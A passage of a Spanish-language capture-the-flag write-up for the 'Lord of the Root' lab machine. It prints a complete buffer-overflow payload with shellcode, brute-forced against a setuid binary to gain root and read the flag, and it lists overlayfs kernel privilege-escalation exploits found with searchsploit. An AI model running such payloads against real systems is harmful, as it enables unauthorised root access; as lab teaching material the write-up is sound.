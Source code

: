 Tenemos el valor de `ESP` ---> **0xbfe19340**.

La dirección del ESP la debemos representar en little endian, con lo cual debemos escribirla al revés.

5 - Utilizamos el siguiente [`shellcode`](https://www.exploit-db.com/exploits/37495).

Payload Final:

```bash
`for i in {1..10000}; do (./file $(python2 -c 'print "A" * 171 + "\x40\x93\xe1\xbf" + "\x90" * 1000 + "\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80"')); done`
```

Resultado:

```bash
smeagol@LordOfTheRoot:/SECRET/door1$ for i in {1..10000}; do (./file $(python2 -c 'print "A" * 171 + "\x40\x93\xe1\xbf" + "\x90" * 1000 + "\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80"')); done
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
# id
uid=1000(smeagol) gid=1000(smeagol) euid=0(root) groups=0(root),1000(smeagol)
# cd /root
# ls
Flag.txt  buf  buf.c  other  other.c  switcher.py
# cat Flag.txt
“There is only one Lord of the Ring, only one who can bend it to his will. And he does not share power.”
– Gandalf
#
```

### Segunda
 
- Exploit overlayfs: El sistema es un Ubuntu viejo, si buscamos en searchsploit encontramos muchos fallos, pero nos quedamos con los siguientes.

```bash
❯ searchsploit Ubuntu 14
--------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                               |  Path
--------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation                                         | linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation (Access /etc/shadow)                    | linux/local/37293.txt
Linux Kernel 4.3.3 (Ubuntu 14.04/15.10) - 'overlayfs' Local Privilege Escalation (1)                                                         | linux/local/39166.c
```
